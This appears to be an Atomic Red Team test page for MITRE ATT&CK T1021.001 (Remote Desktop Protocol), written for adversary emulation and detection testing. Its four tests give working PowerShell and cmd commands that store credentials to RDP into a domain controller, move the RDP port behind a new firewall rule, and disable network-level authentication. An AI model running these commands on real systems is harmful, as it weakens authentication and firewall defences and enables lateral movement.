 # T1021.001 - Remote Services: Remote Desktop Protocol

## [Description from ATT&CK](https://attack.mitre.org/techniques/T1021/001)

<blockquote>Adversaries may use [Valid Accounts](https://attack.mitre.org/techniques/T1078) to log into a computer using the Remote Desktop Protocol (RDP). The adversary may then perform actions as the logged-on user.

Remote desktop is a common feature in operating systems. It allows a user to log into an interactive session with a system desktop graphical user interface on a remote system. Microsoft refers to its implementation of the Remote Desktop Protocol (RDP) as Remote Desktop Services (RDS).(Citation: TechNet Remote Desktop Services)

Adversaries may connect to a remote system over RDP/RDS to expand access if the service is enabled and allows access to accounts with known credentials. Adversaries will likely use Credential Access techniques to acquire credentials to use with RDP. Adversaries may also use RDP in conjunction with the [Accessibility Features](https://attack.mitre.org/techniques/T1546/008) or [Terminal Services DLL](https://attack.mitre.org/techniques/T1505/005) for Persistence.(Citation: Alperovitch Malware)</blockquote>

## Atomic Tests

- [Atomic Test #1 - RDP to DomainController](#atomic-test-1---rdp-to-domaincontroller)

- [Atomic Test #2 - Changing RDP Port to Non Standard Port via Powershell](#atomic-test-2---changing-rdp-port-to-non-standard-port-via-powershell)

- [Atomic Test #3 - Changing RDP Port to Non Standard Port via Command_Prompt](#atomic-test-3---changing-rdp-port-to-non-standard-port-via-command_prompt)

- [Atomic Test #4 - Disable NLA for RDP via Command Prompt](#atomic-test-4---disable-nla-for-rdp-via-command-prompt)

<br/>

## Atomic Test #1 - RDP to DomainController

Attempt an RDP session via Remote Desktop Application to a DomainController.

**Supported Platforms:** Windows

**auto_generated_guid:** 355d4632-8cb9-449d-91ce-b566d0253d3e

#### Inputs:

| Name        | Description                                 | Type   | Default Value                       |
| ----------- | ------------------------------------------- | ------ | ----------------------------------- |
| logonserver | ComputerName argument default %logonserver% | string | $ENV:logonserver.TrimStart("&#92;") |
| domain      | domain argument default %USERDOMAIN%        | string | $Env:USERDOMAIN                     |
| username    | Username argument default %username%        | string | $ENV:USERNAME                       |
| password    | Password                                    | string | 1password2!                         |

#### Attack Commands: Run with `powershell`!

```powershell
$Server=#{logonserver}
$User = Join-Path #{domain} #{username}
$Password="#{password}"
cmdkey /generic:TERMSRV/$Server /user:$User /pass:$Password
mstsc /v:$Server
echo "RDP connection established"
```

#### Cleanup Commands:

```powershell
$p=Tasklist /svc /fi "IMAGENAME eq mstsc.exe" /fo csv | convertfrom-csv
if(-not ([string]::IsNullOrEmpty($p.PID))) { Stop-Process -Id $p.PID }
```

#### Dependencies: Run with `powershell`!

##### Description: Computer must be domain joined

##### Check Prereq Commands:

```powershell
if((Get-CIMInstance -Class Win32_ComputerSystem).PartOfDomain) { exit 0} else { exit 1}
```

##### Get Prereq Commands:

```powershell
Write-Host Joining this computer to a domain must be done manually
```

<br/>
<br/>

## Atomic Test #2 - Changing RDP Port to Non Standard Port via Powershell

Changing RDP Port to Non Standard Port via Powershell

**Supported Platforms:** Windows

**auto_generated_guid:** 2f840dd4-8a2e-4f44-beb3-6b2399ea3771

#### Inputs:

| Name            | Description                | Type   | Default Value |
| --------------- | -------------------------- | ------ | ------------- |
| OLD_Remote_Port | Default RDP Listening Port | string | 3389          |
| NEW_Remote_Port | New RDP Listening Port     | string | 4489          |

#### Attack Commands: Run with `powershell`! Elevation Required (e.g. root or admin)

```powershell
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "PortNumber" -Value #{NEW_Remote_Port}
New-NetFirewallRule -DisplayName 'RDPPORTLatest-TCP-In' -Profile 'Public' -Direction Inbound -Action Allow -Protocol TCP -LocalPort #{NEW_Remote_Port}
```

#### Cleanup Commands:

```powershell
Set-ItemProperty -Path 'HKLM:\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp' -name "PortNumber" -Value #{OLD_Remote_Port}
Remove-NetFirewallRule -DisplayName "RDPPORTLatest-TCP-In" -ErrorAction Ignore
Get-Service TermService | Restart-Service -Force -ErrorAction Ignore
```

<br/>
<br/>

## Atomic Test #3 - Changing RDP Port to Non Standard Port via Command_Prompt

Changing RDP Port to Non Standard Port via Command_Prompt

**Supported Platforms:** Windows

**auto_generated_guid:** 74ace21e-a31c-4f7d-b540-53e4eb6d1f73

#### Inputs:

| Name            | Description                | Type   | Default Value |
| --------------- | -------------------------- | ------ | ------------- |
| OLD_Remote_Port | Default RDP Listening Port | string | 3389          |
| NEW_Remote_Port | New RDP Listening Port     | string | 4489          |

#### Attack Commands: Run with `command_prompt`! Elevation Required (e.g. root or admin)

```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d #{NEW_Remote_Port} /f
netsh advfirewall firewall add rule name="RDPPORTLatest-TCP-In" dir=in action=allow protocol=TCP localport=#{NEW_Remote_Port}
```

#### Cleanup Commands:

```cmd
reg add "HKLM\System\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v PortNumber /t REG_DWORD /d #{OLD_Remote_Port} /f >nul 2>&1
netsh advfirewall firewall delete rule name="RDPPORTLatest-TCP-In" >nul 2>&1
net stop TermService /y >nul 2>&1
net start TermService >nul 2>&1
```

<br/>
<br/>

## Atomic Test #4 - Disable NLA for RDP via Command Prompt

Disables network-level authentication (NLA) for RDP by changing a registry key via Command Prompt
Disabling NLA for RDP can allow remote user interaction with the Windows sign-in screen prior to authentication. According to Microsoft, Flax Typhoon actors used this technique implementation to achieve persistence on victim systems: https://www.microsoft.com/en-us/security/blog/2023/08/24/flax-typhoon-using-legitimate-software-to-quietly-access-taiwanese-organizations/
See also: https://github.com/EmpireProject/Empire/blob/master/lib/modules/powershell/management/enable_rdp.py

**Supported Platforms:** Windows

**auto_generated_guid:** 01d1c6c0-faf0-408e-b368-752a02285cb2

#### Inputs:

| Name                       | Description                               | Type   | Default Value |
| -------------------------- | ----------------------------------------- | ------ | ------------- |
| Default_UserAuthentication | Default UserAuthentication registry value | string | 1             |

#### Attack Commands: Run with `command_prompt`!

```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /d 0 /t REG_DWORD /f
```

#### Cleanup Commands:

```cmd
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /d #{Default_UserAuthentication} /t REG_DWORD -f >nul 2>&1
```

<br/>
